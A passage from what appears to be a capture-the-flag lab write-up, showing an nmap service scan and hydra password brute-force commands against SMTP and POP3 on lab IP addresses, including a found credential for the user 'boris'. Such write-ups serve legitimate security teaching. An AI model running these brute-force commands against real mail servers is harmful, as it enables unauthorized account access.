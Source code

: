 ![namp -n -sV -p25,80,55006,55007 10.10.153.2](<../../.gitbook/assets/Screenshot from 2022-02-21 17-13-53.png>)

![hydra -l boris -p InvincibleHack3r smtp://10.10.153.2](<../../.gitbook/assets/Screenshot from 2022-02-21 17-18-07.png>)

![hydra -l boris -p InvincibleHack3r pop3s://10.10.153.2:55006](<../../.gitbook/assets/Screenshot from 2022-02-21 17-19-22.png>)

![hydra -l boris -p InvincibleHack3r pop3://10.10.153.2:55007](<../../.gitbook/assets/Screenshot from 2022-02-21 17-19-39.png>)

#### <mark style="color:red;">If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra? Whats their new password?</mark>

```bash
hydra -l natalya -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt \
      -t 64 -I -V pop3://10.10.153.2:55007
hydra -l boris -P /usr/share/set/src/fasttrack/wordlist.txt \                                                                                       130 ⨯
      -t 64 -I -V pop3://10.10.110.132:55007
```

![](<../../.gitbook/assets/Screenshot from 2022-02-21 19-23-23.png>)
